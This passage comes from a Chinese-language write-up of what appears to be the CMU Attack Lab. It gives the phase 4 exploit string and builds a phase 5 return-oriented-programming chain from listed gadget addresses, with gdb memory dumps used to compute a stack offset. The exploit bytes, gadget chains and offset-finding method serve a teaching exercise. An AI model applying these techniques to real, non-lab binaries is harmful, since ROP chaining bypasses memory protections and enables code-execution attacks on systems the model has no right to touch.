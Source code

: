 先调用 4019bd 地址下的 pop    %rax 取出栈里下一行的cookie ， 然后ret返回
再调用 4019dc 地址下的 mov    %rax,%rdi 将cookie值传入寄存器rdi中 ， 然后ret返回
最后调用touch2()函数完成攻击。

答案就是:
```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
bd 19 40 00 00 00 00 00
80 2d e5 21 00 00 00 00
dc 19 40 00 00 00 00 00
f9 17 40 00 00 00 00 00
```

### phase5
确定最终目标:
```c
mov <字符串地址>  , %rdi
```
因为加上了栈随机，所以可以根据栈顶地址玩偏移。
现成的偏移函数:
```c
00000000004019ed <add_xy>:
  4019ed:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019f1:	c3                   	retq   
```

所以现在要的目标为:
```c
mov %rsp,%rdi // 找到了
mov <偏移量>,%rsi
call 4019ed <add_xy>
mov %rax,%rdi  // 找到了
<cooki字符串>
```

先找出可能有用的汇编代码:
```c
401a22:89 ce c3 movl %ecx,%esi
401a82:89 d1 c3 movl %edx,%ecx
401a3e:48 89 e0 c3 mov %rsp,%rax ,ret
4019e2:48 89 c7 90 movq %rax,%rdi,ret
4019bd:58 c3 pop %rax , ret
4019b8:92 c3 XCHG   %edx,%eax
4019e2:48 89 c7 90 movq %rax,%rdi,ret
```
组合一下
```c
401a3e:48 89 e0 c3 mov %rsp,%rax ,ret
4019e2:48 89 c7 90 movq %rax,%rdi,ret
4019bd:58 c3 pop %rax , ret
<偏移量>
4019b8:92 c3 XCHG   %edx,%eax
401a82:89 d1 c3 movl %edx,%ecx
401a22:89 ce c3 movl %ecx,%esi
call 4019ed <add_xy>
4019e2:48 89 c7 90 movq %rax,%rdi,ret
```
动态调试得到<偏移量>为:0x7fffffffa3a8 - 0x7fffffffa360 = 0x48
```c
(gdb) x/96xb $rax
0x7fffffffa360: 0xe2    0x19    0x40    0x00    0x00    0x00    0x00    0x00
0x7fffffffa368: 0xbd    0x19    0x40    0x00    0x00    0x00    0x00    0x00
0x7fffffffa370: 0x50    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffa378: 0xb8    0x19    0x40    0x00    0x00    0x00    0x00    0x00
0x7fffffffa380: 0x82    0x1a    0x40    0x00    0x00    0x00    0x00    0x00
```